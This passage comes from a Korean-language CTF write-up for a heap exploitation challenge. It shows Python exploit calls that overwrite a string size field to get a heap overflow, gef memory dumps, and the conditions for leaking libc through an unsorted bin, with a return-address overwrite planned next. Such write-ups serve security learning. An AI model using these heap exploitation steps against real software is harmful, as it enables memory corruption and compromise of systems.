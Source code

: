 이제야 `[0, 2, 0]`이 `[0, 3]`과 인접하게 할당되었으므로 OOB 취약점을 이용할 수 있다.
``` python
    # now that [0, 2, 0] is where [0, 0, 4] was, overwrite str_t.size of [0, 2, 0]
    edit(s, 'd', [0, 3, 4])
    edit(s, 'u', [0, 3, 4], 'v', 0x1000)
```
위 payload와 같이 `[0, 3, 4]`에 접근하여 `v_uint`로 해석되게끔 `0x1000`을 입력하면 메모리에 다음과 같이 저장된다.
``` bash
gef➤  x/8gx 0x555555559460
0x555555559460: 0x0000000000000000      0x00000000feed0003
0x555555559470: 0x0000000000001000      0x0000555555559490      # [0, 2, 0] ; "AAAA"
0x555555559480: 0x0000000000000000      0x0000000000000021
0x555555559490: 0x4141414141414141      0x4141414141414141
```
`str_t` 구조체인 `[0, 2, 0]->size` 영역에 `0x1000`이 쓰여졌으니 이 객체를 이용하여 `*content`에 저장된 주소인 `0x555555559490`부터 `0x1000`바이트를 자유롭게 overwrite할 수 있다.

### Libc leak
문제를 풀 때는 뚜렷한 목적성 없이 *"heap overflow가 가능하니까 일단 chunk size를 덮어서 libc leak을 해야겠다"*고 생각했는데...

*"PIE도 켜져있고 Full Relro도 적용되어있으니 GOT overwrite는 포기하고 libc leak -> stack leak을 해서 return address를 덮어야겠다"*가 올바른 사고의 과정인 것 같다.

아무튼 chunk를 `unsorted bin`으로 보내서 `main_arena` 주소가 담기게하는 기법을 통해 libc leak을 진행하였다.

이 때 몇 가지 맞춰야 할 조건이 있었는데, 그렇지 않으면 chunk가 `unsorted bin`으로 보내지지 않는다.

- chunk size가 0x420 이상일 것
- 해당 chunk의 다음 영역에 chunk가 존재할 것(`next_chunk`)
- `next_chunk`가 top chunk가 아닐 것

특히 세 번째 조건과 반대로 `next_chunk`가 top chunk일 경우 그냥 top chunk에 병합되어버려서 chunk가 `unsorted bin`으로 보내지지 않는다.

조건을 하나씩 맞추기 위해 앞서 heap overflow 상황에서의 메모리를 보면,
``` bash
gef➤  x/20gx 0x555555559470
0x555555559470: 0x0000000000001000      0x0000555555559490      # [0, 2, 0] ; "AAAA"
0x555555559480: 0x0000000000000000      0x0000000000000021
0x555555559490: 0x4141414141414141      0x4141414141414141      # [0, 2, 0]->content
0x5555555594a0: 0x0000000000000000      0x0000000000000051
0x5555555594b0: 0x0000000555555559      0x2da0f37bfd770960
0x5555555594c0: 0x0000000000000000      0x0000000000000000
0x5555555594d0: 0x0000000000000000      0x0000000000000000
0x5555555594e0: 0x0000000000000000      0x0000000000000000
0x5555555594f0: 0x0000000000000000      0x0000000000000021
0x555555559500: 0x4242424242424242      0x4242424242424242      # [0, 2, 1]->content
gef➤
0x555555559510: 0x0000000000000000      0x0000000000000051
0x555555559520: 0x000055500000c1e9      0x2da0f37bfd770960
0x555555559530: 0x0000000000000000      0x0000000000000000
0x555555559540: 0x0000000000000000      0x0000000000000000
0x555555559550: 0x0000000000000000      0x0000000000000000
0x555555559560: 0x0000000000000000      0x0000000000000021
0x555555559570: 0x0000000000000010      0x0000555555559500      # [0, 2, 1] ; "BBBB"
0x555555559580: 0x0000000000000000      0x0000000000000021
0x555555559590: 0x4343434343434343      0x4343434343434343      # [0, 2, 2]->content
0x5555555595a0: 0x0000000000000000      0x0000000000000051
gef➤
0x5555555595b0: 0x000055500000c079      0x2da0f37bfd770960
0x5555555595c0: 0x0000000000000000      0x0000000000000000
0x5555555595d0: 0x0000000000000000      0x0000000000000000
0x5555555595e0: 0x0000000000000000      0x0000000000000000
0x5555555595f0: 0x0000000000000000      0x0000000000000021
0x555555559600: 0x0000000000000010      0x0000555555559590      # [0, 2, 2] ; "CCCC"
0x555555559610: 0x0000000000000000      0x0000000000000021
0x555555559620: 0x0000000555555559      0x2da0f37bfd770960
0x555555559630: 0x0000000000000000      0x0000000000000051
```